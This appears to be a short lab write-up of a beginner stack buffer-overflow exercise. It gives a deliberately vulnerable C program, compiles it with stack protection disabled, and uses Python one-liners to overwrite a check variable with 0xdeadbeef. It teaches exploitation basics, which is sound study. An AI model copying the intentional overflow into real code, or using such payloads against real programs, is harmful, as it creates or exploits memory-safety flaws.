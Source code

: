 ## Bof2
<br>

Source Code:
```
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
 
   }
}
```
<br>

Complie by gcc: <br>
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 ` <br>
![complie bof2](./imgs/bof2_1.png)

<br>

Run program to have output "You are on the right way": <br>
`echo $(python -c "print('a'*41)") | ./bof2.out  ` <br>
![you are on right way](./imgs/bof2_2.png)

<br>

Run program to have output "Yeah! You win!":  <br>
`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out` <br>
![you win](./imgs/bof2_3.png)